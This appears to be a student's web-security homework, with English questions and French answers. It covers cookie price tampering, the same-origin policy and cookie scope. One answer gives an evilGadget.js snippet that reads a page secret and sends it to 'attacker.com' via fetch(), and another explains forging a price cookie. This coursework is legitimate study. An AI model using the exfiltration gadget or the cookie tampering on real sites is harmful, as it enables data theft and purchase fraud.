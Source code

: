 ```php
// confirms.php
if ($_POST["price"] != $_COOKIE["price_cart"]) {
	// return an error to the client
}

// else everything is goood
```

**If price.php adds a hash to the price in the cookie, how an attacker can buy articles by a cheaper price than the one set by price.php?**

Il a besoin de modifier les cookies présent dans son navigateur en modifiant la clé contenant le hash du prix. Il n'a plus qu'a modifier avec le hash du prix voulu.

**Question 3 : (File: integrator.html) Look at the code of integrator.html and write code for evilGadget.js in such a way that evilGadget.js will send the secret to an untrusted server. How do you rewrite integrator.html so the same origin policy (SOP) will protect the secret?**

```js
// evilGadget.js
secret = document.getElementById("secret").innerText

urlAttackerServer = "http://attacker.com/"
const request = { 
	method: 'POST', 
	headers: { 'Content-Type': 'application/json' }, 
	body: JSON.stringify(secret) 
};

// envoie d'une requete POST contenant le secret au serveur de l'attaquant
fetch(urlAttackerServer, request);
```

Pour mettre en place le SOP : …

**Question 4 : (No file) Write two different services from the same server that set a cookie. On the client side include a gadget and try the following things:**

- let the gadget delete the cookie via JavaScript
- Can the second service delete the cookie of the first? Justify why.
- let the gadget send the cookie to another server (you can use a different port to simulate this)
- Does the previous item work if the gadget is inside a frame?
- and if gadget is inside a script and the cookie is initially set as httponly?
- and if gadget is in script and the cookie is initially set as secure? Justify all your answers.

```php
// cookie1.php
<?php
	setcookie("cookie1", "value1", time() + (7 * 24 * 60 * 60))
?>
```

```php
// cookie2.php
<?php
	setcookie("cookie2", "value2", time() + (7 * 24 * 60 * 60))
?>
```

